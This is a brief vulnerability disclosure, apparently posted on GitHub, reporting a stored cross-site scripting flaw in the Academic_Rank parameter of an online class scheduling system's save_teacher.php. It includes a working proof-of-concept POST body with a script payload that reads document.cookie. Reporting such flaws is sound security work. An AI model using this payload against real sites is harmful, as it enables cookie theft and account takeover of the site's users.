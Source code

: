 BUG_Author: CLJY

Vulnerability File: /online_class_scheduling_system/admin/save_teacher.php

POST parameter "Academic_Rank" exists stored cross-site scripting vulnerability

Payload: Name=1&Academic_Rank=<script>alert(document.cookie)</script>&Designation=2&Department=College+of+Education&save=

![image](https://github.com/jiy2020/bugReport/blob/main/xss.png)

Payload will trigger when a user visits on http://localhost/online_class_scheduling_system/admin/record.php

![image](https://github.com/jiy2020/bugReport/blob/main/xss1.png)
